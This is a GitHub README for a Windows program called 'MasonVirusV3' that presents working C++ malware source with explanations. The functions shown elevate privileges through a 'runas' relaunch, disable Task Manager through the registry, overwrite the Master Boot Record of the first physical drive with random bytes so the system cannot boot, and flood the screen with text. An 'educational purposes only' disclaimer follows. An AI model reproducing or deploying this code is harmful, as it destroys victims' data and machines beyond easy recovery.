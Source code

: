 # MasonVirusV3
Review
![MasonVirusV3](https://i.ibb.co/R2rKXqY/image.png)

## Overview
This program is a demonstration of various advanced system manipulation techniques, including MBR overwriting, disabling system utilities, and simulating visual and input effects. The following sections explain each part of the code in detail.

---

### Checking for Administrator Privileges
```cpp
bool IsRunningAsAdmin() {
    BOOL isAdmin = FALSE;
    PSID adminGroup;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    if (AllocateAndInitializeSid(&NtAuthority, 2, SECURITY_BUILTIN_DOMAIN_RID, DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &adminGroup)) {
        if (CheckTokenMembership(NULL, adminGroup, &isAdmin) == 0) {
            isAdmin = FALSE;
        }
        FreeSid(adminGroup);
    }
    return isAdmin == TRUE;
}
```

- **Purpose**:  
  This function checks whether the program is running with administrative privileges.

- **How it works**:  
  1. A security identifier (SID) for the "Administrators" group is created using `AllocateAndInitializeSid`.
  2. The program checks if the current process's token belongs to this group using `CheckTokenMembership`.
  3. If the token indicates membership, the function returns `true`, indicating admin privileges.
  4. The SID is freed after use to prevent memory leaks.

---

### Requesting Administrator Privileges
```cpp
void RequestAdminPrivileges() {
    if (!IsRunningAsAdmin()) {
        WCHAR szFilePath[MAX_PATH];
        GetModuleFileName(NULL, szFilePath, MAX_PATH);
        ShellExecute(NULL, L"runas", szFilePath, NULL, NULL, SW_SHOWNORMAL);
        ExitProcess(0);
    }
}
```

- **Purpose**:  
  This function requests administrative privileges if the program is not already running as an administrator.

- **How it works**:  
  1. It checks for admin privileges using `IsRunningAsAdmin`.
  2. If not running as admin, it restarts the program with elevated privileges using `ShellExecute` with the `"runas"` verb.
  3. The current process exits to allow the elevated instance to take over.

---

### Disabling Task Manager
```cpp
void DisableTaskManager() {
    HKEY hKey;
    if (RegOpenKeyEx(HKEY_CURRENT_USER, L"Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System", 0, KEY_WRITE, &hKey) == ERROR_SUCCESS) {
        DWORD dwData = 1;
        RegSetValueEx(hKey, L"DisableTaskMgr", 0, REG_DWORD, (const BYTE*)&dwData, sizeof(dwData));
        RegCloseKey(hKey);
    }
}
```

- **Purpose**:  
  Disables the Task Manager to prevent the user from terminating the program.

- **How it works**:  
  1. Opens the registry key `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System`.
  2. Sets the value `DisableTaskMgr` to `1`, which disables Task Manager.
  3. Closes the registry key after making changes.

---

### Overwriting the Master Boot Record (MBR)
```cpp
void OverwriteMBR() {
    HANDLE hDrive = CreateFileW(L"\\\\.\\PhysicalDrive0", GENERIC_WRITE, FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    if (hDrive == INVALID_HANDLE_VALUE) {
        return;
    }
    BYTE mbrData[MBR_SIZE];
    std::random_device rd;
    std::mt19937 gen(rd());
    std::uniform_int_distribution<> dis(0, 255);
    for (int i = 0; i < MBR_SIZE; i++)
        mbrData[i] = dis(gen);
    DWORD bytesWritten;
    WriteFile(hDrive, mbrData, MBR_SIZE, &bytesWritten, NULL);
    CloseHandle(hDrive);
}
```

- **Purpose**:  
  This function overwrites the Master Boot Record (MBR) of the primary physical drive, effectively rendering the system unbootable.

- **How it works**:  
  1. Opens a handle to the primary physical drive (`PhysicalDrive0`) with write access.
  2. Generates random data to fill a buffer of 512 bytes (the size of the MBR).
  3. Writes this random data to the drive, overwriting the MBR.
  4. Closes the handle to the drive.

- **Warning**:  
  This operation is extremely destructive and should only be executed with a full understanding of its consequences.

---

### Displaying Random Text on the Screen
```cpp
void DisplayRandomText() {
    HDC hdc;
    int sx = 0, sy = 0;
    LPCWSTR lpText = L"ABOLHB"; // ENTER YOUR NAME
    while (true) {
        hdc = GetWindowDC(GetDesktopWindow());
        sx = GetSystemMetrics(SM_CXSCREEN);
        sy = GetSystemMetrics(SM_CYSCREEN);
        TextOutW(hdc, rand() % sx, rand() % sy, lpText, wcslen(lpText));
        Sleep(10);
    }
}
```

- **Purpose**:  
  Randomly displays a predefined text string on the screen at random positions.

- **How it works**:  
  1. Retrieves the device context (HDC) of the desktop window.
  2. Calculates the screen dimensions using `GetSystemMetrics`.
  3. Displays the text at random positions using `TextOutW`.
  4. The function runs in an infinite loop, continuously displaying the text.

---

## Disclaimer
This program contains potentially harmful code, including MBR overwriting, which can permanently damage a computer. Use this code for educational purposes only and at your own risk.

---

## Acknowledgments
- **Author**: ABOLHB
- **Group**: FREEMASONRY

### Disclaimer of Liability
The author and group disclaim any liability for misuse of this code. This software is provided "as is" for educational purposes only. Any damage caused by its use is the sole responsibility of the user.



